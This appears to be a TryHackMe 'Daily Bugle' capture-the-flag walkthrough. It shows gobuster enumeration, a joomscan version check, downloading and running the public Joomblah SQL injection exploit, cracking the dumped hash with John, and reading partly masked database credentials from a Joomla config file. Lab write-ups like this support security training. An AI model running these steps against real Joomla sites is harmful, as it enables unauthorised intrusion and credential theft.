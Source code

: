 # Daily Bugle Walkthrough -THM


![MainPage](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/DailyBugle.png "Website")

enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/gobuster.png "Website")


The administrator directory looks interesting...

![Joomlah](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomlalogin.png "Website")

Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```
![joomscan](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomscan.png "Website")

Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

![joomblah](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/joomlah_run.png "Website")

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```




